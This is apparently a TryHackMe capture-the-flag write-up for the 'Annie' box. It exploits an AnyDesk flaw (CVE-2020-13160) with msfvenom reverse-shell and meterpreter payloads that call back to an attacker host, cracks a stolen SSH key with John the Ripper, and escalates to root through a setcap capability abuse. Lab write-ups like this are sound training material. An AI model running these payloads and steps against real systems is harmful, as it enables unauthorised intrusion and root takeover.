 ```yaml
---

title: Box - Annie
published: true
---
```


TryHackMe CTF Box - Remote access comes in different flavors.

[https://tryhackme.com/room/annie](https://tryhackme.com/room/annie)

![](/assets/annie01.jpg)

* * *

## Recon - Research - Exploit 

##   Nmap Scans

- ``sudo nmap -Pn -sS -p- 10.10.7.95 -vvv``
- ``sudo nmap -sC -sV -O 10.10.7.95 -p22,7070,38491,42043``

- We can see ssh and "realserver" are open

* * * 

## Anydesk Client

```shell
PORT     STATE SERVICE         VERSION
7070/tcp open  ssl/realserver?
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=AnyDesk Client
```

- [CVE-2020-13160](https://www.exploit-db.com/exploits/49613)

1. ``msfvenom -p linux/x64/shell_reverse_tcp LHOST=ip LPORT=7777 -b "\x00\x25\x26" -f python -v shellcode``
2. inset into payload and setup ``nc -nvlp 7777``

![](/assets/annie02.png)

* * * 

## PrivESC

1. upgrade shell ``python3 -c 'import pty; pty.spawn("/bin/bash")'``
2. setup more stable staged meterpreter shell and wget it over ``msfvenom -p linux/x64/meterpreter/reverse_tcp  LHOST=10.x.x.x LPORT=5555 -f elf > meterpreter.elf``
3. ``msfconsole use exploit/multi/handler`` & ``set payload linux/x64/meterpreter/reverse_tcp``
4. annie has id_rsa keys available in her home lets download in metasploit and then feed them to john
5. ``ssh2john id_rsa > anniejohn``
6. ``john anniejohn --wordlist=/usr/share/seclists/Passwords/rockyou.txt``

![annie123](/assets/annie03.png)

Now that we have annie ssh to make things easiar we can login there and continue with privesc

1. linpeas.sh
2. https://nxnjz.net/2018/08/an-interesting-privilege-escalation-vector-getcap/

```shell
-rwsr-xr-x 1 root root 10K Nov 16  2017 /sbin/setcap (Unknown SUID binary)
```

setcap allows us to set special permissions on files allowing us to privesc. Is we set cap_setuid+ep into a binary it can lead to privilege escalation. See the process in below pic.

![](/assets/annie04.png)

1. We check permissions on python3 as we can use that to spawn a root shell with SUID
2. It doesnt have the special permission so we can copy it from its directory to annies and setcap cap_setuid+ep and spawn a shell.

* * * 

